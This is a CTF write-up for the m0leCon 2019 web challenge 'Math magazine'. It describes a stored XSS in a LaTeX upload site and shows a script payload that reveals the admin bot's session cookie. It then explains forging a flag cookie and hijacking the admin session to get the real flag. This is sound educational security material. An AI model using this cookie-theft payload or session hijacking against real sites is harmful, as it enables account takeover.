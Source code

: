 # m0leCon CTF 2019 – Math magazine

* **Category:** web
* **Points:** 55

## Challenge

> Do you like math? Click here.
>
> Author: @andreossido
>
> http://10.255.0.1:8011/

## Solution

Connecting to the website you can see the following message.

```
Welcome!

This site is a math articles container.
At the moment you can only read your articles and write new ones.
Only admin can read other account articles, so pay attention what do you write :)
```

This website allows you to upload LaTeX documents and to list and view your uploaded ones. The view functionality doesn't escape/encode the output and the text field where you can write your LaTeX script doesn't sanitize the input; as a consequence, the website is vulnerable to XSS.

```latex
\documentclass{article}
\begin{document}

<script>alert();</script>

\end{document}
```

You can abuse this, in order to print administrator cookies, with the following payload.

```latex
\documentclass{article}
\begin{document}

<script>alert(document.cookie);</script>

\end{document}
```

When the article is submitted, the following output is shown.

```
WARN: Published, but admin cannot view you article :(
Error:
[*] Going to visit url: http://10.255.0.1:8011/?p=articles&a=view&u_id=f2c41083389d45ee757cc8f65eb2afd4&id=11
[*] Getting FLAG...

Alert Text: None
Message: unexpected alert open: {Alert text : PHPSESSID=aec0e26f10db41a5b584483bdc67dab1; FLAG=ptm{the_flag_is_not_here}}
(Session info: headless chrome=75.0.3770.100)
```

But the flag is not the real one.

Analyzing the HTML, you can discover the following interesting comment.

```html
<!--
    <li class="nav-item">
        (Not used anymore, but I left it here for historical reasons)
        <a class="nav-link" href="./src.zip">Source</a>
    </li>
-->
```

So you can download the [src.zip](src.zip) file.

Analyzing the [list](./src/pages/articles.actions/list) source code, you can discover an interesting `if` statement, where the real flag is set into a cookie.

```php
<?php
	if(isset($_COOKIE['FLAG']) && $_COOKIE['FLAG'] === FALSE_FLAG && $_SESSION['SECRET'] === SECRET){
		setCookie('FLAG', FLAG, time() + 100, '/');
	}

	$f = new ArticleFactory(USER);
?>
```

At this point you have already leaked the `FALSE_FLAG`, so you can force it into a cookie. You don't have `SECRET` value into your session, but you have the `PHPSESSID` of the administrator, so you can steal its session changing your cookie.

Crafting both cookies accordingly and accessing to the `list` functionality will give you the flag into the `FLAG` cookie.

```
ptm{L4t3x_1nj3ct10n_1s_c00l}
```

**Note**: According to the challenge creator, the technique to leak `PHPSESSID` and false `FLAG` was not the *intended* one.